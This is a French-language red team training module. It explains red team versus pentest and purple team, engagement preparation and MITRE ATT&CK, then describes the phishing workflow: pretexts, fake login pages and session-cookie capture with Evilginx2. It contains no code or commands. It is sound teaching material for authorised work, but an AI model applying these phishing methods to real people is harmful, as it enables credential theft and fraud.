




# Présentation

> **Niveau 10 · Expert · Prérequis : niveaux 0 à 9 · ~22 h · 2 000 XP · Badge 🎭 Fantôme**

Bienvenue au sommet offensif du curriculum. Aux niveaux 0 à 9, tu as appris à comprendre les machines, à pénétrer un réseau, à structurer un pentest selon une méthode, à chasser des flags en CTF, à monnayer tes découvertes en bug bounty, et à naviguer dans les méandres de l'Active Directory. Tu sais trouver une faille, l'exploiter, remonter des privilèges, voler des tickets Kerberos.

Le red team ne te demande pas de faire *mieux* ce que tu sais déjà faire. Il te demande de faire *autre chose* : **penser comme un adversaire réel, sur la durée, face à une défense qui te cherche activement.**

---

## Pourquoi le red team ? (récit motivant)

Un pentest classique, c'est un tour de contrôle technique. Le client te donne une liste de machines, tu cherches des failles connues, tu les prouves, tu écris un rapport, tu pars. Tout le monde sait quand tu commences, personne ne cherche à te voir arriver. C'est précieux — mais c'est un instantané statique, pris dans des conditions idéales et artificielles.

La réalité des attaques modernes n'a rien à voir. Un vrai groupe d'adversaires — ce que les spécialistes appellent une **campagne APT** (*Advanced Persistent Threat*, menace avancée persistante) — n'exploite pas « juste » une CVE et s'en va. Il s'installe. Il trouve un employé qui clique sur un e-mail de phishing, il fait passer un payload sous le nez de l'antivirus, il établit un canal de commande discret vers l'extérieur, il remonte le réseau pendant des semaines en volant des identifiants au passage, il atteint les données comptables, et il repart — parfois sans que personne ne l'ait jamais vu.

Imaginons deux entreprises :

La première fait faire un pentest chaque année. Le rapport dit « tout va bien, on a corrigé les 12 failles trouvées ». Le jour où une vraie attaque arrive, la réponse est : « mais on était sûr d'être en sécurité, le pentester n'a rien trouvé ! ». Sauf que le pentester n'a jamais essayé de passer par la secrétaire du PDG, n'a jamais testé si l'antivirus détectait un payload maison, n'a jamais tenté d'exfiltrer un fichier par DNS. Il cherchait des failles *connues* dans des services *exposés*. Un adversaire, lui, cherche *n'importe quelle voie*, même la plus sale : l'humain, l'imprimante, le Wi-Fi du hall, le fichier Excel d'un ancien collaborateur.

La seconde entreprise, en plus du pentest, fait une fois par an un **exercice red team**. Une équipe d'experts — autorisée par contrat écrit — essaie par tous les moyens d'atteindre un objectif précis : les données financières, le compte d'un administrateur, le système de paie. L'équipe a le droit de mentir, de se cacher, de persister, de faire du bruit *un peu* — mais surtout de faire le moins de bruit possible. Pendant l'exercice, la **blue team** (l'équipe de défense) observe, détecte, répond. À la fin, les deux équipes s'asseyent ensemble : voilà ce que l'attaquant a fait, voilà ce que la défense a vu, voilà les 47 secondes que l'attaquant est resté invisible, voilà les 3 heures avant qu'on l'ait remarqué.

C'est cette seconde entreprise qui dort tranquille. Pas parce qu'elle est impénétrable — rien ne l'est — mais parce qu'elle **sait** combien de temps elle mettrait à réagir, et parce qu'elle a transformé son système de défense en quelque chose de testé, pas en une simple liste de vérification.

> 🎯 L'objectif de ce cours : que tu sois capable de concevoir et de mener un
> **engagement red team complet** — préparation, accès initial, évasion, C2
> (*Command and Control*), persistance, mouvement latéral, exfiltration,
> coordination avec la défense, rapport — sur un laboratoire isolé, avec les
> mêmes outils et la même rigueur que les équipes professionnelles.

### Pourquoi est-il important ?

| Raison | Explication |
| ------ | ----------- |
| **Détection** | Un pentest prouve qu'une faille *peut* être exploitée ; un red team prouve qu'une attaque *passerait* sous la détection actuelle. C'est le seul moyen fiable d'évaluer une défense. |
| **Résilience** | Connaître ses temps de détection et de réponse permet de se préparer : les exercices red team font souvent naître les *playbooks* (procédures de réponse) des SOC. |
| **Réalisme** | Les attaques réelles sont furtives, lentes, opportunistes. Seul un adversaire actif reproduit ces comportements. |
| **Vision globale** | Au lieu de 50 failles techniques, le client obtient 3 scénarios de compromission réalistes, racontés de bout en bout — l'impact réel avant l'incident. |
| **Entraînement de la défense** | La blue team apprend à faire face à un adversaire *vivant* qui s'adapte, au lieu de tester sur des scénarios prévisibles. |
| **Exigences réglementaires** | De plus en plus de secteurs (banque, assurance, santé, opérateurs d'importance vitale) exigent des exercices d'opposition réalistes. |

### Où est-ce utilisé ?

- **Grandes entreprises** : banques, assurances, télécoms — où une compromission silencieuse peut durer des mois.
- **Secteurs critiques** : énergie, transport, santé, gouvernement — les **OIV** (*Opérateurs d'Importance Vitale*).
- **Exercices annuels** : la plupart des grands groupes consacrent une fenêtre annuelle à un red team externe ou interne, souvent coordonné avec les audits réglementaires.
- **Tests de détection** : évaluer un nouvel EDR (*Endpoint Detection and Response*), un nouveau SOC (*Security Operations Center*), une nouvelle segmentation réseau.
- **Formation continue** : les exercices red team sont le terrain d'entraînement des équipes défensives.
- **Recherche et cyberassurance** : les assureurs demandent parfois une preuve de résilience pour fixer les primes.

### Quels métiers utilisent ces compétences ?

| Métier | Usage |
| ------ | ----- |
| **Red teamer** | Conduire les engagements offensifs complets : recruté pour ses qualités d'évasion, de furtivité et d'opérationnel. |
| **Purple teamer** | Faire le pont entre attaque et défense : organise les exercices, traduit les résultats en détections, anime les ateliers communs. |
| **Ingénieur SOC / analyste L1/L2/L3** | Utiliser la connaissance des TTP adverses pour chercher des indicateurs, corréler des alertes, répondre. |
| **Blue teamer / détection engineer** | Traduire chaque technique vue en règle de détection (SIEM, EDR). |
| **Ingénieur incident response** | Connaître les comportements adverses pour enquêter après coup — le red team renverse son point de vue. |
| **Gestionnaire de risque** | Comprendre les résultats pour arbitrer les investissements de sécurité. |

### Prérequis

| Prérequis | Détail |
| --------- | ------ |
| Niveau 0 — Computer Fundamentals | Processus, registre Windows, fichiers, services. |
| Niveau 1 — Linux Fundamentals | Terminal, droits, scripting, réseau. |
| Niveau 2 — Networking | TCP/IP, ports, handshake, DNS, HTTP/HTTPS, sockets. |
| Niveau 3 — Python / Bash | Scripting, sockets, automatisation, requêtes HTTP. |
| Niveau 4 — Web Security | Serveurs web, en-têtes, sessions, cookies. |
| Niveau 5 — OWASP Top 10 | Les familles de failles applicatives et leur exploitation. |
| Niveau 6 — Pentesting Methodology | La méthode : cadre légal, phases, rapport, exploitation. |
| Niveau 7 — CTF Training | La pratique intensive des outils d'exploitation. |
| Niveau 8 — Bug Bounty | La recon, la furtivité, la divulgation responsable. |
| Niveau 9 — Active Directory | Domaine, Kerberos, GPO, BloodHound, mimikatz, latéralité AD. |
| **Labo isolé** | Kali (attaquant) + au moins 2 machines Windows de labo + un petit réseau multi-segments, **isolé d'Internet et de tout système réel**. |

> 💡 Sans les niveaux 6 et 9, ce cours est très difficile à suivre : le red team
> est une *stratégie* posée sur tes compétences offensives *tactiques*.
> Si un terme de méthodologie ou d'Active Directory te bloque, reviens au
> niveau correspondant — c'est normal et même conseillé.

### Temps estimé

| Activité | Durée |
| -------- | ----- |
| Théorie | 6 h |
| Visualisation | 1 h |
| Démonstrations | 4 h |
| Cas réels | 1 h |
| Laboratoires | 5 h |
| Mini challenges | 2 h |
| Quiz | 2 h |
| **Total** | **~22 h** |

### Niveau

| Caractéristique | Valeur |
| --------------- | ------ |
| Niveau | **10 — Red Team** |
| Difficulté | ⭐⭐⭐⭐⭐ (expert, exige la pratique et la maturité) |
| Place dans la roadmap | 11ᵉ cours (niveaux 0 → 11) |
| Badge obtenu | 🎭 Fantôme |
| XP gagnés | 2 000 |
| Cours suivant | Niveau 11 — Cloud Security ☁️ |

---

## Objectifs pédagogiques

À la fin de ce cours, tu seras capable de :

1. **Expliquer** la différence entre red team, pentest et purple team, et démontrer la valeur stratégique d'un engagement red team pour une organisation (détection, résilience, maturité).
2. **Préparer** un engagement complet : mandat, règles d'engagement (ROE), scope, objectifs (« crown jewels »), coordination avec la défense, gestion des risques.
3. **Construire un premier accès** réaliste : campagne de phishing avec page de collecte, exploitation d'application, watering hole — en respectant le scope et la légalité.
4. **Générer, obfusquer et livrer** un payload (msfvenom, encodage, chiffrement, packers, Veil) et comprendre le fonctionnement d'un AV et d'un EDR pour raisonner l'évasion (Living Off the Land, LOLBins).
5. **Établir et maintenir un C2** (Command and Control) : architecture beacon/listener, sleep/jitter, malleable C2, outils (Sliver, Havoc, Mythic, Cobalt Strike), OPSEC de l'infrastructure (redirectors).
6. **Assurer la persistance** et le **mouvement latéral** dans un domaine : schtasks, registre, WMI, DLL hijacking, GPO/ACL abuse, délégations Kerberos, tunnels chiffrés (chisel, ligolo-ng, SSH, proxychains).
7. **Exfiltrer** des données de façon contrôlée (DNS, HTTP, stéganographie, C2), **maîtriser l'OPSEC** pendant tout l'engagement, **coordonner avec la défense** (purple team) et **produire un rapport red team** exploitable, dans un cadre strictement légal et éthique.

---

## Vue d'ensemble

### Roadmap interne du cours

```mermaid
flowchart LR
    A["Module 1 : Philosophie<br/>red vs pentest vs purple"] --> B["Module 2 : Préparation<br/>mandat, ROE, scope, crown jewels"]
    B --> C["Module 3 : Accès initial<br/>phishing, exploitation, watering hole"]
    C --> D["Module 4 : Payload & livraison<br/>msfvenom, obfuscation, AV/EDR"]
    D --> E["Module 5 : Exécution & persistance<br/>schtasks, registre, WMI, DLL hijack"]
    E --> F["Module 6 : C2<br/>Sliver, Havoc, Mythic, Cobalt Strike"]
    F --> G["Module 7 : Évasion réseau & hôte<br/>tunnels chiffrés, DoH"]
    G --> H["Module 8 : Latéralité & escalade AD<br/>trusts, ACL, GPO, délégations"]
    H --> I["Module 9 : Tunneling & pivot<br/>chisel, ligolo-ng, SSH, proxychains"]
    I --> J["Module 10 : Exfiltration<br/>DNS, HTTP, stégano"]
    J --> K["Module 11 : OPSEC & coordination<br/>preuves, purple team"]
    K --> L["Module 12 : Rapport & éthique"]
```



### Les modules du cours

| Module | Thème | Concepts clés | Outils |
| ------ | ----- | ------------- | ------ |
| 1-2 | Cadre et préparation | Mandat, ROE, scope, crown jewels, gestion de crise | Contrats, check-lists |
| 3 | Accès initial | Phishing, page de collecte, exploitation, watering hole | Gophish, Evilginx2, `swaks`, Metasploit |
| 4 | Payload & évasion | Génération, encodage, chiffrement, packers, signatures, AV/EDR, LOLBins | `msfvenom`, Veil, UPX, `certutil`, `mshta` |
| 5 | Exécution & persistance | schtasks, registre, WMI, services, startup, DLL hijacking | `schtasks`, `reg`, PowerShell, mimikatz |
| 6 | C2 | Beacon, listener, sleep/jitter, malleable C2, redirectors | Sliver, Havoc, Mythic, Cobalt Strike |
| 7 | Évasion réseau | Tunnels chiffrés, DNS over HTTPS, encodage, domain fronting | chisel, ligolo-ng, SSH, `openssl` |
| 8 | Latéralité AD | Trusts, cross-forest, ACL abuse, GPO abuse, délégations Kerberos | BloodHound, PowerView, `impacket`, Rubeus |
| 9 | Pivot | Tunnels SOCKS, port forwarding, pivots | chisel, ligolo-ng, `ssh -L/-D`, proxychains |
| 10 | Exfiltration | DNS exfil, HTTP, stéganographie, bandes limitées, e-mail | Scripts Python, dnscat2, steghide |
| 11-12 | OPSEC, coordination, rapport | Preuves, nettoyage, purple team, recommandations, éthique | SIEM, rapports, playbooks |

### Glossaire des acronymes du cours

| Acronyme | Signification | En clair |
| -------- | ------------- | -------- |
| **C2** | Command & Control | Le canal de commande entre l'attaquant et la machine compromise (le « fil » qui relie le marionnettiste à sa marionnette). |
| **C2C** | Command & Control Center | Le centre de commandement (les serveurs, le logiciel) qui orchestre les machines compromises. |
| **EDR** | Endpoint Detection and Response | Agent de sécurité installé sur les postes, qui surveille les comportements suspects et permet de répondre à distance. |
| **AV** | Antivirus | Logiciel qui détecte les malwares connus par signature, heuristique et analyse en bac à sable. |
| **OPSEC** | Operations Security | L'ensemble des mesures qui minimisent les traces laissées et empêchent la défense de comprendre ce qu'on fait. |
| **IoC** | Indicator of Compromise | Trace observable (IP, domaine, hash, nom de fichier) qui signale une compromission. |
| **TTP** | Tactics, Techniques, Procedures | Le vocabulaire pour décrire *quoi* fait l'adversaire (tactique), *comment* (technique), et *de façon précise* (procédure). |
| **MITRE ATT&CK** | MITRE Adversarial Tactics, Techniques & Common Knowledge | Le référentiel public et libre qui catalogue les TTP des adversaires. |
| **SOC** | Security Operations Center | L'équipe qui surveille en continu et répond aux alertes de sécurité. |
| **Phishing** | De l'anglais « fishing » (pêche) | Envoyer un leurre (faux e-mail, fausse page) pour faire mordre la victime : cliquer, entrer un mot de passe, ouvrir un fichier. |
| **Payload** | Charge utile | Le « paquet » malveillant délivré à la machine : un binaire, un script, une commande. |
| **Obfuscation** | Dissimulation | Transformer un code pour qu'il ne ressemble plus à un malware, sans changer son comportement. |
| **Tunneling** | Tunnélisation | Encapsuler un trafic (souvent interdit) dans un autre trafic (souvent autorisé) pour le faire passer. |
| **Exfil** | Exfiltration | Faire sortir des données de l'organisation de manière contrôlée. |
| **LOLBin** | Living Off the Land Binary | Outil légitime du système (certutil, mshta…) détourné pour faire des actions malveillantes sans déposer de malware. |
| **Beacon** | Balise | Le petit programme qui vit sur la machine compromise et « sonne » régulièrement vers le C2 pour recevoir des ordres. |
| **ROE** | Rules of Engagement | Règles d'engagement : ce qu'on a le droit de faire, où, quand, comment. |
| **IEX** | Invoke-Expression | Applet PowerShell qui exécute une chaîne de caractères comme du code. |
| **APT** | Advanced Persistent Threat | Un groupe d'adversaires avancé, patient et déterminé. |
| **DLP** | Data Loss Prevention | Outils qui empêchent la fuite de données sensibles vers l'extérieur. |

---

## Théorie

> 🔎 Chaque notion suit la même trame : **Définition** → **Pourquoi** →
> **Fonctionnement** → **Architecture** → **Cas d'utilisation** →
> **Exemple réel** → **Bonnes pratiques** → **Résumé**.

### (a) Red team vs pentest vs purple team

#### Définition

Le **pentest** (test d'intrusion) est une évaluation ciblée, cadrée dans le temps, qui cherche des failles techniques connues sur un périmètre défini, pour produire un rapport de vulnérabilités. Le **red team** est une simulation d'adversaire réaliste : objectifs stratégiques, durée longue, furtivité, et opposition à une défense active. Le **purple team** n'est pas un troisième type d'engagement : c'est une **méthode de travail collaborative** qui fait travailler ensemble l'équipe rouge et l'équipe bleue pour améliorer la détection.

#### Pourquoi

La différence n'est pas cosmétique, elle change tout : l'objectif, la durée, les règles, les livrables et le niveau de bruit toléré. Confondre les deux, c'est soit offrir au client un « red team » qui n'est qu'un pentest plus long (il n'apprendra rien sur sa capacité à vous détecter), soit faire un « pentest » en mode red team (trop lent, trop cher, trop risqué pour le besoin).

> 🍳 **Analogie :** le pentest, c'est inspecter les portes et les fenêtres
> d'une banque, une à une, avec le plan fourni par le directeur. Le red team,
> c'est engager un acteur qui va essayer de sortir avec le contenu du coffre
> en se faisant passer pour un livreur, sans que personne ne le remarque.
> Le purple team, c'est faire travailler l'inspecteur et l'acteur ensemble,
> puis équiper la banque en conséquence.

#### Fonctionnement

| Critère | Pentest | Red team |
| ------- | ------- | -------- |
| Objectif | Trouver des vulnérabilités | Atteindre un objectif stratégique (données, compte admin) |
| Durée | 1 à 3 semaines | 1 à 6 mois |
| Connaissance du client | Annoncée (white/grey box) | Le plus souvent black box ou peu d'information |
| Furtivité | Faible : on cherche à trouver, pas à se cacher | Élevée : on cherche à passer inaperçu |
| Opposition | Aucune (défense non alertée ou non impliquée) | Défense active (SOC, EDR) qui cherche et réagit |
| Techniques | Failles connues, outils standards, scans bruyants | Mélange de failles connues, nouvelles, sociales, évasion |
| Livrable | Rapport de vulnérabilités scorées | Rapport narratif : scénarios, temps de détection, recommandations |

#### Architecture

Le red team s'organise en trois acteurs : l'équipe **rouge** (attaque), l'équipe **bleue** (défense : SOC, réponse à incident) et la **white cell** — un arbitre neutre (souvent du management ou un consultant tiers) qui connaît les règles, fixe le cadre, et empêche les débordements. L'équipe rouge communique ses règles d'engagement à la white cell, jamais ses techniques à la blue team (sinon plus de surprise). Le purple team, lui, casse cette cloison : les deux équipes partagent leurs observations en séance.

#### Cas d'utilisation

- Évaluer la **détection** : combien de temps avant qu'une technique réaliste soit détectée ?
- Valider une **nouvelle défense** : EDR, segmentation, SIEM.
- Entraîner le **SOC** sur un adversaire vivant.
- Répondre à une exigence réglementaire d'exercice d'opposition.

#### Exemple réel

Une banque fait faire un pentest chaque année : le rapport liste 30 failles, elles sont corrigées. Elle décide d'un exercice red team : l'équipe rouge envoie un e-mail de phishing à un employé de la comptabilité, fait passer un payload chiffré sous l'AV, installe un beacon qui dort 30 minutes entre deux appels, pivote via une imprimante réseau vers le domaine, et récupère le fichier comptable par DNS en 3 h. La blue team ne détecte rien pendant 2 h — et ne comprend le scénario que lors du debriefing. Voilà la valeur ajoutée : non pas « il y a une CVE », mais « notre détection met 2 h à réagir sur un scénario réaliste ».

#### Bonnes pratiques

- Ne jamais dire « red team » pour un pentest et inversement : le client doit savoir ce qu'il achète.
- Toujours prévoir une white cell et un canal d'urgence.
- Cadrer explicitement le bruit toléré et les dégâts interdits.
- Mesurer ce qui compte : temps de détection, temps de réponse, techniques non détectées.

#### Résumé

Le red team est un **exercice d'adversaire**, le pentest une **évaluation technique**, le purple team une **méthode collaborative** pour transformer les résultats en détections. Bien les distinguer, c'est livrer au client exactement la valeur qu'il attend.

---

### (b) La préparation : mandat, ROE, scope, crown jewels

#### Définition

Avant le moindre e-mail de phishing, il faut écrire le cadre : le **mandat** (la mission), les **ROE** (*Rules of Engagement* — règles d'engagement), le **scope** (le périmètre exact : IP, domaines, plages horaires, techniques autorisées) et les **crown jewels** (les « joyaux de la couronne » : les actifs et données que l'organisation tient le plus à protéger).

#### Pourquoi

Parce que le red team est par nature risqué et intrusif : on va mentir à des employés, on va faire transiter des données, on va toucher à des systèmes de production. Sans cadre écrit, signé, précis, on ne fait pas un exercice : on commet une série de délits (intrusion, escroquerie, vol de données) et on met l'organisation en danger. Le cadre protège aussi la défense : sans scope, la blue team pourrait traiter l'exercice comme une vraie attaque et bloquer la production.

> 🍳 **Analogie :** préparer un red team, c'est préparer un **tournage de film
> d'action**. Le réalisateur (l'équipe rouge) veut des explosions réalistes,
> mais personne n'autorise à brûler le quartier. On signe des autorisations de
> tournage (mandat), on définit les rues fermées et les heures (scope), on
> interdit de faire du mal aux figurants (ROE), et on sait quelle est la scène
> finale à tourner (crown jewels).

#### Fonctionnement

1. **Mandat** : réunion de cadrage avec le commanditaire (direction, RSSI). Pourquoi cet exercice ? Que veut-on prouver ? Quelles équipes sont prévenues ?
2. **Scope** : liste des actifs in et out, plages horaires, période, environnements autorisés (test / production), interdiction de toucher à certains services (un SI de paie critique, par exemple).
3. **ROE** : techniques interdites (ex. pas d'attaque par déni de service), niveau de bruit toléré, règles de sécurité (pas de vraie exfiltration de données réelles — on utilise des « canaris »), contacts d'urgence (qui prévenir si on casse quelque chose).
4. **Crown jewels** : définis avec le client. Ce sont les objectifs : « récupérer le fichier comptable », « obtenir les droits d'un administrateur de domaine », « lire les e-mails du directeur financier ». On peut aussi définir des **objectifs de non-aboutissement** : « ne jamais compromettre la chaîne de production ».
5. **Communication** : qui est au courant de l'exercice ? Généralement le commanditaire, la white cell, parfois le RSSI — rarement les opérationnels. Si la blue team est prévenue, l'exercice s'appelle souvent une *adversary emulation* avec consigne de ne pas changer ses pratiques.

#### Architecture

```
Commanditaire (direction)
        │
        ▼
   White cell (arbitre) ──────── contacts d'urgence
        │            │
        ▼            ▼
   Team rouge      Team bleue (SOC)
   (attaque)       (défense, voit les alertes)
```

#### Cas d'utilisation

- Exercice annuel de résilience d'un grand groupe.
- Validation d'un nouvel outil de détection.
- Test de la capacité à réagir à un ransomware simulé.

#### Exemple réel

Un opérateur critique commande un red team avec ce mandat : « atteignez les données de la facturation, sans toucher aux serveurs de supervision industrielle ». Le scope liste 12 plages IP et 2 domaines ; les ROE interdisent tout déni de service, toute modification destructrice, tout accès aux données personnelles réelles ; les crown jewels sont « le fichier de facturation mensuelle » ; un canal d'urgence est ouvert avec la white cell. Toute cette préparation se fait en une semaine, avant un seul octet envoyé.

#### Bonnes pratiques

- Écrire le cadre *avant* tout engagement, et le faire relire par les deux parties.
- Définir des crown jewels **mesurables** (un fichier précis, un compte précis).
- Prévoir des « stop conditions » : si une action dépasse le cadre, on s'arrête et on appelle la white cell.
- Archiver mandat, ROE et autorisation signée : c'est ta protection légale.
- Ne jamais exfiltrer de données réelles : on exfiltre des données factices (« canaris ») qui prouvent l'accès sans exposer le client.

#### Résumé

Le red team commence par un document, pas par une commande. Mandat, scope, ROE, crown jewels, stop conditions et canal d'urgence forment le contrat qui transforme une « intrusion illégale » en « exercice professionnel ».

---

### (c) Le modèle MITRE ATT&CK

#### Définition

**MITRE ATT&CK** (*Adversarial Tactics, Techniques and Common Knowledge*) est une base de connaissances gratuite, maintenue par le MITRE, qui catalogue les **tactiques** (les « pourquoi » : objectifs intermédiaires comme obtenir un accès, persister, exfiltrer) et les **techniques** (les « comment » : phishing, scheduled task, DLL hijacking…) observés chez les vrais adversaires, avec leurs **procédures**, leurs **détections** et leurs **atténuations**. La vue d'ensemble s'appelle la **matrice ATT&CK**.

#### Pourquoi

C'est le **langage commun** entre les équipes. Quand l'équipe rouge dit « j'ai fait T1053.005 », la blue team sait immédiatement qu'il s'agit d'une *Scheduled Task* créée pour persister, et va chercher exactement l'événement à corréler dans ses logs. ATT&CK permet de : mesurer la couverture de détection (quelles tactiques sont « aveugles » ?), évaluer les outils (quelle part des techniques couvre mon EDR ?), et structurer les rapports et les entraînements.

> 🍳 **Analogie :** ATT&CK, c'est le **code de la route des attaquants**.
> Les tactiques sont les destinations (aller à l'école, aller au travail),
> les techniques sont les moyens de transport (vélo, voiture, bus), les
> procédures sont les marques et modèles exacts. Quand un policier (SOC)
> sait que des voleurs arrivent « en bus », il surveille les arrêts de bus —
> mais le voleur peut changer de bus (TTP mapping).

#### Fonctionnement

- **Tactiques** : 14 grandes étapes pour la matrice Enterprise (dont Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Collection, Command and Control, Exfiltration, Impact).
- **Techniques** : ~200 techniques, chacune avec son identifiant `T####` (ex. T1566 Phishing), et souvent des **sous-techniques** `T####.###` (ex. T1566.002 Spearphishing Link).
- **Groups** : ATT&CK référence aussi les groupes d'adversaires réels (APT29, Lazarus…) et associe leurs TTP observés.
- **Data sources** : pour chaque technique, les sources de données utiles à la détection (logs Windows, registre, trafic réseau).

#### Architecture

La matrice se lit en lignes (tactiques) et en colonnes (plateformes : Windows, Linux, macOS, Cloud). Chaque case croise une tactique et une plateforme et contient les techniques applicables.

```
TA0001 ─► TA0002 ─► TA0003 ─► ... ─► TA0010 ─► TA0011
Initial    Execution  Persistence      Exfil      Impact
 Access
   │           │           │             │          │
 T1566       T1059       T1547          T1041      T1486
 Phishing    PowerShell  Run Keys       C2         Ransomware
```

#### Cas d'utilisation

- **Cartographier la défense** : quelles techniques un adversaire *pourrait* utiliser, et lesquelles la défense détecterait ?
- **Choisir ses techniques** : en red team, on sélectionne les techniques les moins détectées pour l'objectif visé.
- **Évaluer un EDR** : le vendeur de l'EDR prétend détecter « tout » ; on teste 20 techniques ATT&CK et on regarde le taux de détection.
- **Rédiger le rapport** : chaque action de l'exercice est référencée à une technique, pour que la blue team sache quoi améliorer.

#### Exemple réel

Au niveau 9, tu as utilisé Kerberoasting : la base ATT&CK le référence comme **T1558.003** (*Steal or Forge Kerberos Tickets : Kerberoasting*). La blue team qui connaît ATT&CK a une règle de détection prête : surveiller les requêtes TGS pour des SPN de comptes de service. Tu sais donc *à l'avance* que cette technique est bruyante, et tu peux choisir une alternative (ex. **T1558.001** Golden Ticket, si tu as le hash de krbtgt).

#### Bonnes pratiques

- Utiliser ATT&CK Navigator (l'outil de visualisation officiel) pour cartographier ses engagements.
- Dans le rapport, référencer chaque étape à une technique ATT&CK : cela rend le résultat **actionnable**.
- Ne pas réduire le red team à ATT&CK : c'est un vocabulaire, pas une méthodologie complète.
- Connaître les sous-techniques propres à ton environnement (Windows / Linux / Cloud).

#### Résumé

ATT&CK est le dictionnaire commun attaque/défense. Il structure le choix des techniques, la mesure de la détection et le langage du rapport. Sans lui, le red team serait une suite d'astuces impossibles à évaluer.

---

### (d) L'accès initial : phishing, exploitation d'applications, watering hole

#### Définition

L'**accès initial** (tactique ATT&CK **TA0001**) regroupe toutes les façons d'obtenir une première position dans l'organisation. Les plus utilisées en red team : le **phishing** (un e-mail piégé envoyé à un employé), l'**exploitation d'applications exposées** (T1190 : un serveur web vulnérable, un VPN, un service RDP mal protégé) et le **watering hole** (T1189 : compromettre un site que les employés visitent, pour les infecter à leur insu).

#### Pourquoi

Sans accès initial, rien ne suit. C'est la porte d'entrée. Et en red team, ce qui compte n'est pas seulement de passer la porte, mais de la passer **discrètement** : la défense surveille surtout l'extérieur (IP, tentatives de connexion, e-mails suspects). Le phishing est la voie numéro un parce que le facteur humain est la faille la plus difficile à fermer : un employé fatigué, curieux ou pressé.

> 🍳 **Analogie :** l'accès initial, c'est le **crochetage de la porte
> d'entrée** — sauf que dans cette histoire, les serrures les plus dures sont
> en bas (le réseau est bien protégé) et la porte la plus facile est en haut,
> au niveau des têtes : un e-mail bien rédigé vaut mieux qu'un exploit
> parfait. C'est plus facile de faire ouvrir la porte par quelqu'un de
> l'intérieur que de la défoncer.

#### Fonctionnement

**Phishing (T1566) :**

1. **Recon interne** : trouver les e-mails des employés (OSINT, LinkedIn, cartes de visite, signatures publiques).
2. **Prétexte** : choisir une histoire crédible — colis, facture, réunion, bulletin de paie — adaptée à la victime cible.
3. **Construction** : une page de collecte (fausse page de connexion Microsoft ou VPN qui capture le mot de passe et le token), ou un fichier malveillant (doc macro, lien vers un payload).
4. **Envoi** : un framework de phishing (Gophish) ou un envoi SMTP direct (`swaks`) qui gère les templates, le suivi des clics et les rapports.
5. **Suivi** : quand la victime clique et saisit ses identifiants, le red team les récupère en temps réel (avec Evilginx2, qui relève aussi les cookies de session).

**Exploitation d'applications (T1190)** : reprendre les techniques du niveau 6 (scan, énumération, exploitation) mais de façon plus ciblée et plus silencieuse (moins de scans globaux, des vérifications manuelles).

**Watering hole (T1189)** : compromettre un site fréquenté par la cible (site métier, portail fournisseur, forum interne) pour y déposer un script malveillant. Rare et délicat : il faut souvent une autorisation spécifique dans les ROE.

#### Architecture

```
[Attaquant] ──SMTP──► [Boîte mail de la victime]
     │                        │
     │  lien                  │ clic
     ▼                        ▼
[Fausse page Microsoft] ◄────[Navigateur de la victime]
     │
     └── capture identifiants + token ──► [Panel de récupération]
```

#### Cas d'utilisation

- Atteindre les « crown jewels » sans exploiter aucune faille technique (prouver que l'humain est la surface d'attaque).
- Valider un filtre anti-phishing : combien d'e-mails arrivent en boîte ?
- Obtenir le premier accès pour la suite de l'engagement (le plus souvent, le phishing n'est que le début).

#### Exemple réel

Pour tester un client bancaire, l'équipe rouge envoie 40 e-mails « convocation RH » avec un lien vers une fausse page de connexion VPN, entre 8h30 et 9h (heure d'arrivée au bureau). En 2 heures, 6 collaborateurs ont saisi leurs identifiants. L'un d'eux appartient à la comptabilité. L'équipe rouge se connecte ensuite à la vraie page VPN avec ces identifiants — aucun bruit réseau, aucune faille, juste un mot de passe légitimement saisi sur une page qu'on croyait réelle.

#### Bonnes pratiques

- Toujours cadrer le phishing dans les ROE : nombre maximal d'e-mails, victimes autorisées, interdiction de cibler certaines personnes (ex. un cadre jugé « trop stressé »).
- Utiliser des domaines de test ressemblants mais contrôlés (*lookalike domains* enregistrés par l'équipe rouge ou le client), jamais des domaines de tiers.
